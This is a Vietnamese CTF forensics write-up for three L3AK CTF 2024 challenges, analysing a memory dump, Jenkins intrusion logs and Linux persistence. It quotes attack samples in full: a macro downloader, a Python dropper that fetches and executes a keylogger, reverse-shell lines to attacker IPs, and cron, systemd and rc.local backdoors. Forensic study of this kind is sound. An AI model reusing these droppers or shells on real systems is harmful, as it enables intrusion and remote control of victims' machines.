








## Challenge được lưu ở đây
> https://drive.google.com/drive/folders/1P3botJLvLmSjQno8q_7yNZPP_MvLBZRz?usp=sharing

## The Spy
### Description 
- 
### Solution 
```
Volatility Foundation Volatility Framework 2.6.1
INFO    : volatility.debug    : Determining profile based on KDBG search...
          Suggested Profile(s) : Win7SP1x86_23418, Win7SP0x86, Win7SP1x86_24000, Win7SP1x86
                     AS Layer1 : IA32PagedMemoryPae (Kernel AS)
                     AS Layer2 : FileAddressSpace (/home/kali/Downloads/memdump.mem)
                      PAE type : PAE
                           DTB : 0x185000L
                          KDBG : 0x82772c28L
          Number of Processors : 1
     Image Type (Service Pack) : 1
                KPCR for CPU 0 : 0x82773c00L
             KUSER_SHARED_DATA : 0xffdf0000L
           Image date and time : 2024-05-16 07:07:15 UTC+0000
     Image local date and time : 2024-05-16 00:07:15 -0700
```
- Sau khi thử qua plugin pslist thì em thấy rằng có 1 vài process rất khả nghi 
```
0x84695a68 chrome.exe             1068    836     34     1120      1      0 2024-05-16 06:33:49 UTC+0000                                 
0x85dad158 chrome.exe             1636   1068      9       92      1      0 2024-05-16 06:33:49 UTC+0000                                 
0x8455c620 chrome.exe              756   1068     15      199      1      0 2024-05-16 06:33:50 UTC+0000                                 
0x846a94b8 chrome.exe             2660   1068      6      128      1      0 2024-05-16 06:33:50 UTC+0000                                 
0x847c0548 chrome.exe              232   1068     10      191      1      0 2024-05-16 06:33:51 UTC+0000                                 
0x9f7ff158 FTK Imager.exe          872    836     12      361      1      0 2024-05-16 06:45:46 UTC+0000                                 
0x853773b0 chrome.exe             3532   1068     14      211      1      0 2024-05-16 06:55:10 UTC+0000                                 
0x84621030 chrome.exe             2200   1068     14      244      1      0 2024-05-16 07:00:22 UTC+0000                                 
0x8456baa8 chrome.exe             3572   1068     13      213      1      0 2024-05-16 07:00:29 UTC+0000                                 
0x8696f868 chrome.exe             3356   1068     13      356      1      0 2024-05-16 07:00:41 UTC+0000                                 
0x84488ae8 chrome.exe             1000   1068     11      157      1      0 2024-05-16 07:00:48 UTC+0000                                 
0x85fba740 SearchProtocol          980   2328      7      312      0      0 2024-05-16 07:03:45 UTC+0000                                 
0x861679b0 msiexec.exe            3024    432      7      338      0      0 2024-05-16 07:04:46 UTC+0000                                 
0x999fd248 msiexec.exe            2432   3024      0 --------      1      0 2024-05-16 07:04:46 UTC+0000   2024-05-16 07:06:27 UTC+0000  
0x8539f908 audiodg.exe             736    672      4      118      0      0 2024-05-16 07:05:00 UTC+0000                                 
0x845c9260 TrustedInstall         1632    432      7      286      0      0 2024-05-16 07:05:09 UTC+0000                                 
0x86131858 VSSVC.exe              1760    432     12      194      0      0 2024-05-16 07:05:10 UTC+0000                                 
0x8493b610 svchost.exe             424    432      5       68      0      0 2024-05-16 07:05:10 UTC+0000                                 
0x8547cd40 SearchFilterHo         3556   2328      5       88      0      0 2024-05-16 07:05:56 UTC+0000                                 
0x8476ad40 soffice.exe            2408    836      1       23      1      0 2024-05-16 07:06:30 UTC+0000                                 
0x8540c748 soffice.bin            3516   2408     29      692      1      0 2024-05-16 07:06:32 UTC+0000              
```
- Có rất nhiều process chrome và 1 process soffice
- Kiểm tra qua chrome thì không có gì hết, với process soffice thì em thử tìm các đuôi tệp như .pdf .doc .xml thì em thấy 1 file doc tên `Cyber Security and Computer Forensics BSc(Hons) 2021-22`

```
└─$ python2 vol.py -f /home/kali/Downloads/memdump.mem --profile=Win7SP0x86 filescan | grep doc
Volatility Foundation Volatility Framework 2.6.1
0x000000007e22cda0      7      0 R--r-d \Device\HarddiskVolume2\Windows\System32\shdocvw.dll
0x000000007f84e8a8      1      1 RW-rw- \Device\HarddiskVolume2\Users\Abdelrhman\Downloads\Cyber Security and Computer Forensics BSc(Hons) 2021-22.doc
0x000000007fb03038      1      1 R--r-d \Device\HarddiskVolume2\Windows\System32\en-US\shdocvw.dll.mui
0x000000007fd18ef0      4      0 R--rw- \Device\HarddiskVolume2\Users\Abdelrhman\Downloads\Cyber Security and Computer Forensics BSc(Hons) 2021-22.doc
0x000000007feedd10      9      1 R--r-d \Device\HarddiskVolume2\Windows\System32\en-US\shdocvw.dll.mui
```
- Dump nó ra thì thấy có macro, dùng olevba để xem nó có gì 
```
┌──(kali㉿kali)-[~/volatility]
└─$ python2 vol.py -f /home/kali/Downloads/memdump.mem --profile=Win7SP0x86 dumpfiles -Q 0x000000007f84e8a8 -D /home/kali/Downloads 
Volatility Foundation Volatility Framework 2.6.1
DataSectionObject 0x7f84e8a8   None   \Device\HarddiskVolume2\Users\Abdelrhman\Downloads\Cyber Security and Computer Forensics BSc(Hons) 2021-22.doc
SharedCacheMap 0x7f84e8a8   None   \Device\HarddiskVolume2\Users\Abdelrhman\Downloads\Cyber Security and Computer Forensics BSc(Hons) 2021-22.doc

```
<details>
<summary>
- Xem VBA tại đây 
</summary>

```
Private Declare PtrSafe Function a1AaQ Lib "urlmon" Alias "URLDownloadToFileA" ( _
    ByVal b1BbQ As LongPtr, _
    ByVal c1CcQ As String, _
    ByVal d1DdQ As String, _
    ByVal e1EeQ As Long, _
    ByVal f1FfQ As LongPtr) As Long

Public Function b1BbR(c1CcR As String) As String
    Dim d1DdR As Integer
    Dim e1EeR As Integer
    Dim f1FfR As String
    
    If Len(c1CcR) = 0 Or Len(c1CcR) Mod 2 <> 0 Then Exit Function
    
    d1DdR = Len(c1CcR)
    
    For e1EeR = 1 To Len(c1CcR)
        If e1EeR Mod 2 <> 0 Then
            f1FfR = f1FfR & Chr$(Val("&H" & Mid$(c1CcR, e1EeR, 2)))
        End If
    Next
    
    b1BbR = f1FfR
End Function

Sub c1CcS()
    Dim d1DdS As String
    Dim e1EeS As String
    Dim f1FfS As String
    Dim g1GgS As String
    Dim h1HhS As Long
    Dim username As String
    
    username = Environ("USERNAME")
    d1DdS = "68747470733n2s2s64726976652r676s6s676p652r636s6q2s66696p652s642s31764573414o44663731647763336267426s723238326o4p546173626p333348532s766965773s7573703q73686172696r67"
    
    e1EeS = j2JjS(d1DdS)
    
    f1FfS = b1BbR(e1EeS)
    
    g1GgS = "C:\Users\" & username & "\AppData\Local\pp.py"
    
    h1HhS = a1AaQ(0, f1FfS, g1GgS, 0, 0)
    
    If h1HhS = 0 Then
        MsgBox "File downloaded successfully.", vbInformation
        ' Run the Python script
        RunPython
    Else
        MsgBox "Failed to download file.", vbExclamation
    End If
End Sub

Function j2JjS(k2KkS As String) As String
    Dim l2LlS As String
    Dim m2MmS As Integer
    For m2MmS = 1 To Len(k2KkS)
        Select Case Asc(Mid(k2KkS, m2MmS, 1))
            Case 65 To 77, 97 To 109
                l2LlS = l2LlS & Chr(Asc(Mid(k2KkS, m2MmS, 1)) + 13)
            Case 78 To 90, 110 To 122
                l2LlS = l2LlS & Chr(Asc(Mid(k2KkS, m2MmS, 1)) - 13)
            Case Else
                l2LlS = l2LlS & Mid(k2KkS, m2MmS, 1)
        End Select
    Next m2MmS
    j2JjS = l2LlS
End Function

Sub RunPython()
    Dim PythonExe As String
    Dim PythonScript As String
    Dim Command As String
    Dim username As String
    
    username = Environ("USERNAME")
    
    PythonExe = "C:\Users\" & username & "\AppData\Local\Microsoft\WindowsApps\python3.exe"
    PythonScript = "C:\Users\" & username & "\AppData\Local\pp.py"
    Command = PythonExe & " " & PythonScript
    
    Shell Command, vbNormalFocus
End Sub

```
</details>

- Phân tích thì thấy đoạn mã decode ROT 13 chuỗi `68747470733n2s2s64726976652r676s6s676p652r636s6q2s66696p652s642s31764573414o44663731647763336267426s723238326o4p546173626p333348532s766965773s7573703q73686172696r67` sau đó decode từ hex qua ascii rồi tải file xuống tên pp.py
- 

<details>
<summary>
- Đây là nội dung file pp.py được mở từ link drive 
</summary>

```
import os
import requests

def download_file_from_google_drive(file_id, destination):
    URL = "https://docs.google.com/uc?export=download"

    session = requests.Session()

    response = session.get(URL, params={'id': file_id}, stream=True)
    token = get_confirm_token(response)

    if token:
        params = {'id': file_id, 'confirm': token}
        response = session.get(URL, params=params, stream=True)

    save_response_content(response, destination)

def get_confirm_token(response):
    for key, value in response.cookies.items():
        if key.startswith('download_warning'):
            return value
    return None

def save_response_content(response, destination):
    CHUNK_SIZE = 32768

    with open(destination, "wb") as f:
        for chunk in response.iter_content(CHUNK_SIZE):
            if chunk:
                f.write(chunk)

def hex_to_binary(hex_str):
    return bytes.fromhex(hex_str)

def save_binary_to_file(binary_data, file_path):
    with open(file_path, 'wb') as file:
        file.write(binary_data)

def reverse_hex_conversion(file_path, output_file):
    with open(file_path, 'r') as file:
        hex_content = file.read().strip()
    binary_data = hex_to_binary(hex_content)
    save_binary_to_file(binary_data, output_file)

def run_retrieved_file(file_path):
    os.system(file_path)

if __name__ == "__main__":
    # Download the file and save it as file_hex.txt
    file_id = "1lTEbD37UC7B7tIRoAEQ1YK6niLQHGZt0"
    input_file = "file_hex.txt"
    download_file_from_google_drive(file_id, input_file)
    
    # Convert hex to binary and save it as L3AK.exe
    output_file = "L3AK.exe"  
    reverse_hex_conversion(input_file, output_file)
    
    # Execute the retrieved file
    run_retrieved_file(output_file)
    
    print("File retrieved and executed as L3AK.exe")
```


</details>

- File pp.py thực thi lại tải xuống 1 file `L3AK.exe` nữa với id từ link google doc là `1lTEbD37UC7B7tIRoAEQ1YK6niLQHGZt0`, mở tiếp phát nữa.
> https://drive.google.com/file/d/1lTEbD37UC7B7tIRoAEQ1YK6niLQHGZt0/view

- Đây là 1 tệp hex, decode để lấy file exe và tiếp tục dùng pyinstxtractor để chuyển sang tệp .pyc (mục đích để unpack file python)
```
┌──(kali㉿kali)-[~/Downloads/pyinstxtractor]
└─$ python pyinstxtractor.py hi.exe 
[+] Processing hi.exe
[+] Pyinstaller version: 2.1+
[+] Python version: 3.12
[+] Length of package: 14651528 bytes
[+] Found 107 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: pyi_rth_inspect.pyc
[+] Possible entry point: pyi_rth_pkgutil.pyc
[+] Possible entry point: pyi_rth_multiprocessing.pyc
[+] Possible entry point: pyi_rth_cryptography_openssl.pyc
[+] Possible entry point: keylogger.pyc
[!] Warning: This script is running in a different Python version than the one used to build the executable.
[!] Please run this script in Python 3.12 to prevent extraction errors during unmarshalling
[!] Skipping pyz extraction
[+] Successfully extracted pyinstaller archive: hi.exe

You can now use a python decompiler on the pyc files within the extracted directory

```
- Tiếp tục sử dụng uncompyle6 để lấy script gốc file python. Nhưng mà nó không ra 
- Tuy nhiên khi dùng strings để đọc thì em thấy 1 lệnh base64
```
┌──(kali㉿kali)-[~/Downloads]
└─$ echo "aHR0cHM6Ly9kaXNjb3JkLmdnL3Bzd1R0VW5wSkM=" | base64 -d
https://discord.gg/pswTtUnpJC        
```
> John vào group thì thu được flag 


## Impostor
### Description
- 
### Solution 
- Sau khi tải file challenge.zip về và giải nén em thu được 2 file, 1 file auth.log và 1 file challenge.pcapng.
- Đầu tiên, phân tích file auth.log trước.
- 
- Thấy rằng có rất nhiều thông báo sai mật khẩu, rất có thể đây là cuộc tấn công từ điển và thực thi mã từ xa (RCE - Remote Code Execution) từ ip `192.168.222.151` vào user `sparkle`
- 
- Sau khi xác thực thành công mật khẩu, attacker đã bắt đầu thực thi các lệnh shell 
```
May 17 13:19:01 kali sudo:  sparkle : TTY=pts/2 ; PWD=/home/sparkle ; USER=root ; COMMAND=/usr/bin/base64 /var/lib/jenkins/secrets/hudson.util.Secret

```
- Shell này mã hoá file hudson.util.Secret thành base64
```
May 17 13:22:09 kali sudo:  sparkle : TTY=pts/2 ; PWD=/home/sparkle ; USER=root ; COMMAND=/usr/bin/curl http://192.168.222.151:2212/data.bin --output data.bin

```
- Lệnh này tải file data.bin bằng lệnh curl
```
May 17 13:23:02 kali sudo:  sparkle : TTY=pts/2 ; PWD=/home/sparkle ; USER=root ; COMMAND=/usr/bin/base58 -d data.bin

```
- Tiếp theo nó mã hoá file vừa tải về dạng base85

```
May 17 13:23:44 kali sudo:  sparkle : TTY=pts/2 ; PWD=/home/sparkle ; USER=root ; COMMAND=./pers.sh
May 17 13:24:50 kali sudo:  sparkle : TTY=pts/2 ; PWD=/home/sparkle ; USER=root ; COMMAND=/usr/bin/rm -rf *

```

- Thực thi file pers.sh và xoá dấu vết 
- Bây giờ em ở file *.pcapng lên để xem dữ liệu tại các file có gì
- Đây là dữ liệu file data.bin, decode base58
```
QMSKuQ1jyJEwJYVQPQNGfTdsjT1dbfPBxU1kCuYTwUZC552VDJdFC3NNY6cy5hEm1hAEQn31sJH6VRtknUWjTMyRT5Q4swp71q6QfLX3wCLrgfiDYXGeim49bUpgbSdDfc2EZbgBhBeL8tC2GrPogAAVN1BQ14pEVDm7TzsFNUqvLjLk7M6vY9UsemS1m4AzVshZCSs6sY31f5UCkYC6BbvWUrqFeab5m5DCxZFroHHuCKu6yQQA4BJeASiicfoktdUWHtQeszxuQi6HXBQGytZ5mtGSbbhn2UZngWENU6ESZVLrG3siwz3uFCQw71H78Q29YXgqZb6sv4uDhS95YV3ae8DKLMwrm5c9wWuhM24
```
```
job_name="RV8zMGQ4NGQ4MDFiMjk0N2YxYmQyZmFhZTRmZGNiYjkyNn0="
script_path="/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.222.151/1337 0>&1'"
cron_schedule="0 5 * * *"
(crontab -l 2>/dev/null; echo "$cron_schedule $script_path # $job_name") | crontab -
```
- Có vẻ như 1 Revershell được triển khai, ta có được đoạn flag cuối tại biến job_name 
> Flag_3 : `E_30d84d801b2947f1bd2faae4fdcbb926}`

- Theo dõi luồng websocket
- Đầu tiên attacker đọc tệp `@/etc/passwd`, sau đó đọc tệp `/var/lib/jenkins/secrets/master.key` và `/var/lib/jenkins/credentials.xml`, tại luồng thứ 4 em thấy được phần 2 của flag
> Flag_2 : 1s_0n_3dg

- Dựa vào các thông tin trên có vẻ như hacker đang muốn lấy thông tin đăng nhập người dùng 
- 
- Tại file credentials.xml chưa 1 mật khẩu nhưng nó đã bị mã hoá, tra google thì em tìm được trang [này](https://github.com/tarvitz/jenkins-utils)
- Ta cần 2 file để giải mã là master.key và hudson.util.Secret, riêng tệp hudson.util.Secret đã bị mã hoá base64 trong luồng tcp 55 
```
python invoke.py --master-key master.key --hudson-secret-key hudson.util.Secret --action decrypt "{AQAAABAAAAAgZv2vv4JB/AgWN1I47+8m9yZ+me7oTd6xvWNvtk5vJcx6UTPCzAvPcL3ugFrzQ0L+}"

``` 
- Ta thu được flag_3: L3AK{J3nk1n$_1s_0n_3dgE_30d84d801b2947f1bd2faae4fdcbb926}
> Flag : L3AK{J3nk1n$_
## HoldOnTight - Forensics
### Description
- 
- 
### Solution 
- Bài này yêu cầu ta tìm 8 cái flag nhỏ để lấy được flag lớn, nhưng trước tiên ta cần biết kĩ thuật `Persistence ` là gì 
```
Trong lĩnh vực kiểm thử xâm nhập, chúng ta gọi việc duy trì quyền truy cập vào các thiết bị đã bị tấn công trước đó là "Persistence." Việc duy trì quyền truy cập là rất quan trọng do các lỗ hổng và hệ điều hành mà chúng ta tấn công có thể không ổn định. Bạn không thể chắc chắn sau khi tấn công và khai thác thành công, bạn có thể duy trì quyền truy cập vào hệ thống. Việc mất quyền truy cập có thể xảy ra vì nhiều nguyên nhân khác nhau: Quản trị viên hệ thống có thể vá lỗ hổng mà bạn đã khai thác để tiếp cận, hoặc họ có thể khởi động lại hệ thống. Điều đầu tiên mà một kẻ tấn công cố gắng là đảm bảo rằng họ có cách để trở lại hệ thống nếu một trong những tình huống này xảy ra.
```
- Tuy nhiên ở máy kali linux và máy windows cách cài Persistence sẽ không giống nhau.
- Để hiểu rõ hơn em bắt đầu tìm kiếm trên google thì tìm thấy [đường dẫn này](https://hadess.io/the-art-of-linux-persistence/), Bài viết này chỉ cho ta thấy những chỗ hacker thường cài Persistence vào
-  Đầu tiên là Persistence sử dụng Scheduled task (trình tạo lịch)
- Ta có thể cấu hình  phần mềm độc hại trên Scheduled task  tại `/etc/crontab`, `/etc/cron.d/*`, `/etc/cron.{hourly,daily,weekly,monthly}/*`, `/var/spool/cron/crontab/*`
- Em kiểm tra lần lượt từng tệp 
- **Tại /etc/crontab**
```
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
# You can also override PATH, but by default, newer versions inherit it from the environment
#PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/5 * * * * root /tm'p/b'ac'kd'oor.sh
#L'3a'k{Cr0n5'_50'_C71'ch3}'
```
> Em thu được mini flag đầu tiên : L3ak{Cr0n5_50_C71ch3}
- Chú ý dòng lệnh `root /tmp/backdoor.sh` nó sẽ thực thi script mỗi 5 phút
- Tiếp theo nó có thể ẩn trong `Systemd Timers`, chúng sẽ tự khởi động trong dịch vụ init vào thời điểm cụ thể
- Dịch vụ sẽ được tạo tại `/etc/systemd/system/**`
```
┌──(kali㉿kali)-[~/…/l3ak ctf/etc/systemd/system]
└─$ cat backdoor.service 
[Unit]
Description=Malware Service Example
After=network.target

[Service]
Type=simple
ExecStart=/tmp/backdoor.sh
Restart=on-failure
User=root #}r3m1T_dn@_3c1vr35{ka3L

[Install]
WantedBy=multi-user.target
```
- Ta có flag thứ 2
> }r3m1T_dn@_3c1vr35{ka3L ==[Reverse]==> L3ak{53rv1c3_@nd_T1m3r}
```
┌──(kali㉿kali)-[~/…/l3ak ctf/etc/systemd/system]
└─$ cat backdoor.timer 
[Unit]
Description=Timer for Malware Service

[Timer]
OnBootSec=1min
OnUnitActiveSec=5min
Unit=backdoor.service

[Install]
WantedBy=timers.target

```
- Dịch vụ sẽ tự khởi động sau 5 phút `OnUnitActiveSec=5min`
- Tiếp theo là `rc.common/rc.local`
- Mục đích : Nó được hệ thống init thực thi ở cuối quá trình khởi động.
```
#!/bin/bash

ENCODED_ArcaneGate_PATH="L3RtcC9iYWNrZG9vci5zaA=="
ArcaneGate_PATH=$(echo "$ENCODED_ArcaneGate_PATH" | base64 --decode)
ArcaneGate_BASE64='IyEvYmluL2Jhc2gKL2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjAuMC42LzEyMzQgMD4mMQo='

# Check if the ArcaneGate script exists, if not, recreate it from the Base64 string
if [ ! -f "$ArcaneGate_PATH" ]; then
    echo "ArcaneGate script not found, recreating..."
    echo "$ArcaneGate_BASE64" | base64 --decode > "$ArcaneGate_PATH"
    chmod +x "$ArcaneGate_PATH"
fi

# The Specter that Steers Your Spirit
## In the shadowed alcoves of ancient libraries where the whispers of the past linger like morning fog,
## there lies a tome, bound not in leather but in the mysteries of the ether itself.
## The first chapter, "The Specter that Steers Your Spirit," reveals how one may
## summon and commune with the ghostly essences that drift through the veils of our world. 
## TDNha3tyY19sMGM0bF8wbl9iMDB0fQ==

# Execute the ArcaneGate script
"$ArcaneGate_PATH"

exit 0

```
> Flag thứ 3 : TDNha3tyY19sMGM0bF8wbl9iMDB0fQ== ==[from base64]==> L3ak{rc_l0c4l_0n_b00t}
- Đoạn script này khiến em dừng lại phân tích 1 tí 
- Biến `ArcaneGate_PATH` chứa vị trí tệp thực thi được decode base64 từ chuỗi "L3RtcC9iYWNrZ...." (/tmp/backdoor.sh)
Biến `ArcaneGate_BASE64` tạo 1 kết nối Reverse shell đến  10.0.0.6/1234 (/bin/bash -i >& /dev/tcp/10.0.0.6/1234 0>&1)
- Backdoor script này sẽ mở một kết nối shell đảo ngược (reverse shell) tới địa chỉ IP `10.0.0.6` trên cổng `1234`, cho phép kẻ tấn công điều khiển hệ thống từ xa.
```
MOTD là viết tắt của Message of The Day, là thông báo được hiển thị cho người dùng khi họ SSH vào hệ thống. Nó được cấu hình trong thư mục /etc/update-motd.d/ và các tác nhân đe dọa có thể đặt các lệnh tùy ý vào bất kỳ tệp nào được liệt kê ở đó.
```
```

echo '2f746d702f6261636b646f6f722e73682026' | xxd -r -p | bash
# echo '4c33616b7b35683331315f30665f3768335f4434797d0a' | xxd -r -p

```
> Flag 4 : 4c33616b7b35683331315f30665f3768335f4434797d0a ==[from hex]==> L3ak{5h311_0f_7h3_D4y}

............Chỉ được 4 flag............... Chưa xong


## Full writeup 
> https://0xmr8anem.medium.com/l3akctf-2024-forensics-writeups-3b5575f07cba
> https://warlocksmurf.github.io/posts/l3akctf2024/